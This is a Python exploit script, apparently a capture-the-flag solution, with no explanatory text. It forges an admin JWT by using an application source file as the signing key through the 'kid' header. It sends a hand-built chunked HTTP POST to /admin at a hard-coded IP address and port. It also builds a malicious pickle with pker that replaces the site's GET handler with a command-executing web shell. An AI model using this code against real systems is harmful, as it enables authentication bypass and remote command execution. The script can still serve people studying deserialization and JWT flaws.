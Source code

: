 ```python
import jwt
import base64
import socket
import pickle
import pker

user_info = {
    "username": "admin",
    "isadmin": True
}
key = open('./frontend/src/app.py').read()
payload = jwt.encode(user_info, key, algorithm="HS256", headers={"kid": "app.py"})

def send_chunked(data, host, port, cookie=''):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        message = 'POST /admin HTTP/1.1\r\n'
        message += 'Host: %s\r\n' % host
        message += 'Cookie: %s\r\n' % cookie
        message += 'Content-Length: %d\r\n' % len(data[0])
        message += 'Transfer-Encoding: CHUNKED\r\n\r\n'
        s.send(message.encode('utf-8'))
        for i in range(len(data)):
            s.send(('%X\r\n' % len(data[i])).encode())
            s.send((data[i] + '\r\n').encode())
        s.send(b'0\r\n\r\n')
        print("Chunks sent successfully.")

        response = ''
        while True:
            received = s.recv(1024)
            if not received: 
                break
            response += received.decode('utf-8')
        print("Server Response:\n", response)
    except Exception as e:
        print("Exception occured: ", e)
    finally:
        s.close()

tag = "BackdoorPasswordOnlyForAdmin"
cookie = "token=%s" % payload
ip = "139.224.222.124"
port = 31309

class obj():
    def __reduce__(self):
        return (eval, ('print("wowwww")',))
data = pickle.dumps(obj())
data = '''getattr = GLOBAL('builtins', 'getattr')
dict = GLOBAL('builtins', 'dict')
dict_get = getattr(dict, 'get')
globals = GLOBAL('builtins', 'globals')
builtins = globals()
a = dict_get(builtins, '__builtins__')
exec = getattr(a, 'exec')
exec('index.GET = lambda self:__import__("os").popen(web.input().cmd).read()')
return
'''
data = pker.cons(data)
data = base64.b64encode(data).decode()
print(data)
```